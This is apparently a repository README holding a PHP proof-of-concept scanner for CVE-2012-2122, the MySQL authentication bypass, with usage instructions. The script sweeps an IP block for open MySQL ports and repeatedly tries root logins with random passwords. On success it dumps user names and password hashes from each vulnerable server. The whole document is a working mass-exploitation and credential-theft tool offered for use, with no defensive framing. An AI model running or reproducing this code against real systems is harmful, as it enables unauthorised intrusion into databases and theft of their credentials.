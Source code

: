 Usage
-----

    php scanner.php 10.0.0.1/18 [block in cidr notation]

    Requirements:
            php5-cli

POC
---

    <?php
    /*
      l0l get at me ;) - Avinza
      CVE-2012-2122 scanner
    */
    error_reporting(0);


    $me = @$argv[0];

    if(!isset($argv[1]) || !strpos($argv[1],"/")) {
              printf("php %s %s \n", "{$me}","10.0.0.1/18 [block in cidr notation]");
              /* clean this shit up */
             exit;
    }

    list($start,$mask) = explode("/",$argv[1]);

    $block=cidr_gen($start,$mask,TRUE);

    //echo print_r($block,1)."\n";

    foreach ($block as $host) {
       $open = fsockopen($host, 3306, $errno, $errstr, 30); /* because im lame */
       $p = uniqid(mt_rand());
       $i = 0;

       if($open){
           printf("#%d accepts connections.\n", $host);
       do {
               $link = @mysql_connect($host, 'root', $p);
               if($link) {
                       printf("Host %s is vulnerable. Proceeding With Dump\n", $host);
                         $sql = "SELECT user,password from mysql.user";
                         /* dump hashes (replace with whatever query */
                         mysql_select_db('information_schema');
                         $results = mysql_query($sql);
                       if($results) {
                        printf(" %s ","\n");
                         while($row = mysql_fetch_assoc($results)) {
                           var_dump($row);
                         printf(" %s ","\n");
                         }
                       } else {
                         printf(" %s ", "Host Appears to Be Vuln But Query Failed: [{$sql}]: " . mysql_error());
                       }
               }
               //printf("#%d Attempts.\n", $i);
              $i++;
       } while($i < 512);
      }
     }

    function cidr_gen($ip,$bitmask=24,$return_array=FALSE) {
         $corr=(pow(2,32)-1)-(pow(2,32-$bitmask)-1);
         $first=ip2long($ip) & ($corr);
         $length=pow(2,32-$bitmask)-1;
         if (!$return_array) {
         return array(
             'first'=>$first,
             'size'=>$length+1,
             'last'=>$first+$length,
             'first_ip'=>long2ip($first),
             'last_ip'=>long2ip($first+$length)
             );
         }
         $ips=array();
         for ($i=0;$i<=$length;$i++) {
             $ips[]=long2ip($first+$i);
         }
         return $ips;
    }

    ?>